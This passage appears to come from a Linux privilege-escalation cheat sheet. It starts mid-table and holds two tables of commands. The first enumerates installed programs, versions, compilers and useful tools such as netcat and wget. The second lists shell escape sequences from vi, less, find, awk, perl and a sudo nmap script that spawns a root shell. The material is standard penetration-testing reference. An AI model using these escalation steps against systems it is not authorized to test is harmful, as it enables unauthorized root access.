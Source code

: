 | cat /etc/services | View port numbers/services mappings |
   
  
### Programs Installed:  
  
| Command | Result |
| --- | --- |
| dpkg -l | Installed packages (Debian) |
| rpm -qa | Installed packages (Red Hat) |
| sudo -V | Sudo version – does an exploit exist? |
| httpd -v | Apache version |
| apache2 -v | As above |
| apache2ctl (or apachectl) -M | List loaded Apache modules |
| mysql --version | Installed MYSQL version details |
| psql -V | Installed Postgres version details |
| perl -v | Installed Perl version details |
| java -version | Installed Java version details |
| python --version | Installed Python version details |
| ruby -v | Installed Ruby version details |
| find / -name %program_name% 2>/dev/null (i.e. nc, netcat, wget, nmap etc) | Locate ‘useful’ programs (netcat, wget etc) |
| which %program_name% (i.e. nc, netcat, wget, nmap etc) | As above |
| dpkg --list 2>/dev/null| grep compiler |grep -v decompiler 2>/dev/null && yum list installed 'gcc*' 2>/dev/null| grep gcc 2>/dev/null | List available compilers |
| cat /etc/apache2/envvars 2>/dev/null |grep -i 'user|group' |awk '{sub(/.*export /,"")}1' | Which account is Apache running as |
   
  
### Common Shell Escape Sequences:  
  
| Command | Program(s) |
| --- | --- |
| :!bash | vi, vim |
| :set shell=/bin/bash:shell | vi, vim |
| !bash | man, more, less |
| find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' ;  | find |
| awk 'BEGIN {system("/bin/bash")}' | awk |
| --interactive | nmap |
echo "os.execute('/bin/sh')" > exploit.nse  
  
| sudo nmap --script=exploit.nse | nmap (thanks to comment by anonymous below) |
| perl -e 'exec "/bin/bash";' | Perl |
